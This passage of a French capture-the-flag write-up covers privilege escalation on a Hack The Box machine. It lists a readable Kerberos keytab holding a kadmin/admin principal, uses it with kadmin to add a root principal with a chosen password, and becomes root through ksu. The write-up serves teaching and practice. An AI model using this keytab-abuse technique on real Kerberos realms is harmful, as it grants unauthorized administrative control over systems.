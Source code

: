 Tous les hôtes qui fournissent un service disposent d'un fichier local, appelé un keytab. Le fichier [keytab](https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-install/The-Keytab-File.html) contient le principal pour le service approprié, appelé clé de service. Une clé de service est utilisée par un service pour s'authentifier auprès du KDC et est uniquement connue de Kerberos et du service lui-même. 
Par exemple, si vous avez un serveur NFS utilisant Kerberos, le serveur doit avoir un fichier keytab qui contient son principal de service nfs.
On peut utiliser un fichier keytab pour nous authentifier auprès d'un serveur distant à l'aide de Kerberos sans saisir de mot de passe.

Nous pouvons lire un fichier keytab avec [klist](https://docs.bmc.com/docs/ServerAutomation/85/configuring-after-installation/administering-security/implementing-authentication/implementing-active-directory-kerberos-authentication/configuring-an-authentication-service-for-ad-kerberos-authentication/creating-the-blappserv_login-conf-file-ad-kerberos/using-klist-to-read-the-keytab-file) :

```py
[admin@srv01 ~]$ klist -t -k /etc/krb5.keytab

Keytab name: FILE:/etc/krb5.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   2 08/12/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 08/12/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 08/12/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 08/12/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 08/12/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 19/12/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 19/12/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 19/12/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 19/12/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 19/12/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 19/12/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 19/12/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 19/12/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 19/12/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 19/12/2020 06:10:53 kadmin/admin@REALCORP.HTB
```

Nous allons utiliser [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html#kadmin-1) pour [ajouter un principal root](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html#kadmin-1) de service Kerberos dans notre fichier keytab :

```py
[admin@srv01 ~]$ kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB

Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:  add_principal root@REALCORP.HTB
Enter password for principal "root@REALCORP.HTB": nuts
Re-enter password for principal "root@REALCORP.HTB": nuts
```

Nous pouvons enfin nous connecter en tant que root à l'aide de [ksu](https://www.oreilly.com/library/view/linux-security-cookbook/0596003919/ch05s20.html)

![rooted](https://i.imgur.com/ejiRXDV.png)

Voila nous sommes enfin root ! 😎

<script src="https://www.hackthebox.eu/badge/428983"></script>
